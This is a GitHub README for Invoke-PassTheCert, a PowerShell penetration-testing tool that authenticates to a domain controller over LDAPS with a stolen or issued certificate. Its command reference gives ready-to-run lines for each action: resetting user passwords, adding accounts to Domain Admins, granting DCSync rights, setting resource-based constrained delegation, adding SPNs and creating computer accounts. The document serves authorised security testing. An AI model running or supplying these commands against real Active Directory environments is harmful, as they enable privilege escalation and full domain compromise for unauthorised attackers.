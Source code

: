 # Invoke-PassTheCert

Invoke-PassTheCert is a pure PowerShell port of PassTheCert. The purpose of this repository is to expand the landscape of PowerShell tooling available to Penetration testers. 

The original work by AlmondOffsec can be found here: https://github.com/AlmondOffSec/PassTheCert along with the accompanying blog post: https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html

Sometimes, Domain Controllers do not support PKINIT. This can be because their certificates do not have the Smart Card Logon EKU. However, several protocols, including LDAP, support Schannel, thus authentication through TLS. We created a small Proof-of-Concept tool that allows authenticating against an LDAP/S server with a certificate to perform different attack actions.

---

## Note
If the certificate is password protected you will need to provide the ```-CertificatePassword``` parameter.
The ```-Certificate``` parameter accepts either a path to a PFX file or a Base64 encoded certificate ```MIINA...```

---

## Basic Usage

```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

## Command Reference

#### Whoami
Display the current identity authenticated via the certificate.
```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

### Reset Password
Reset a target user's password to a random value.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ResetPassword "CN=John Doe,CN=Users,DC=domain,DC=com"
```

---

## Add SPN
Adds an SPN (e.g., `cifs/fake.domain.com`) to a user object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Remove SPN
Removes SPN from target.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add to Group
Adds a user or computer to a specified group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddToGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Remove from Group
Removes a user or computer from a group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveFromGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Toggle Account Status
Enables or disables a user/computer account.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ToggleAccountStatus "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add Computer
Adds a new computer account to the domain. A random password will be generated if ```-ComputerPassword``` is omitted.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddComputer "NewPC01" -ComputerPassword "Summer2025!"
```

---

### Remove Computer
Removes a computer object from the domain.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveComputer "CN=NewPC01,CN=Computers,DC=domain,DC=com"
```

---

### Add RBCD (Resource-Based Constrained Delegation)
Grants RBCD rights to a specified user/computer by SID.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com" -SID "S-1-5-21-..."
```

---

### Remove RBCD
Removes RBCD rights from a target object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com"
```

---

### Elevate
Grants a user rights to perform DCSync by modifying the domain security descriptor.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -Elevate "CN=svc_user,CN=Users,DC=domain,DC=com"
```

## Future Addtions
- Support for Start TLS
- Shadow Credential Attacks
- LDAP interactive Shell

---
